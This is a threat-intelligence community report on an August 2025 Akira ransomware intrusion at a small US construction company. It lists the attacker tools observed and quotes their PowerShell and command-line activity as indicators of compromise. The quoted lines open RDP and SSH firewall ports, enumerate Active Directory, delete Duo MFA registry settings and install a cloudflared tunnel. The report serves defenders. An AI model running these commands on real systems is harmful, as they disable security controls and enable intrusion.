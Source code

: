 # Community Report 009 - Akira August 2025 

### Contributor Details
```
- Real Name: Ben Folland
- Online Handle: @polygonben
- Employer: Huntress
```
---
### Adversary
```
- Named adversary: Akira
```
---
### Incident Details
```
- Time of Incident: August 2025
- Victim Sector: Construction
- Victim Country: USA
- Victom Size: 1-100
```
---
### Observed Tools
 
| Discovery | RMM Tools | Defense Evasion | Credential Theft | OffSec | Networking | LOLBAS | Exfiltration |
|---|---|---|---|---|---|---|---|
|   |   |   |   | Impacket  | Cloudflared  | net   |   |
|   |   |   |   |   | OpenSSH  | netsh  |   |
|   |   |   |   |   |   | nltest  |   |
---
### Indicators of Compromise (IOCs)
```
Powershell History:

New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22
cmd
nltest /dclist:
nltest /trusted_domains
net group /domain "Domain Admins"
clsssss
cls
Install-WindowsFeature RSAT-AD-PowerShell
Get-ADUser -Filter * -Properties * | Select-Object distinguishedName, Enabled, CanonicalName, CN, Name, SamAccountName, MemberOf, Company, Title, Description, Created, Modified, PasswordLastSet, LastLogonDate, logonCount, Department, telephoneNumber, MobilePhone, OfficePhone, EmailAddress, mail, HomeDirectory, homeMDB > C:\programdata\adu.txt
Get-ADComputer -Filter * -Property * | Select-Object Enabled, DNSHostName, IPv4Address, OperatingSystem, Description  > C:\programdata\adc_light2.txt:

Command Line / Process Tree:

- WmiPrvSE.exe // Impacket wmiexec lateral movement to run:
  -  Remove-Item -Path "HKLM:\Software\Duo Security" -Recurse -Force
  -  netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow
  -  reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

- 	C:\ProgramData\ssh\cloudflared.exe service install eyJ[...REDACTED...]SJ9 // Known Akira Cloudflared token

Staging:
- C:\ProgramData\

Ransomware Binary:
- N/A
```
---
 
---
| Date Published | Report |
|---|---|
| 04/08/2025 | https://www.huntress.com/blog/exploitation-of-sonicwall-vpn |
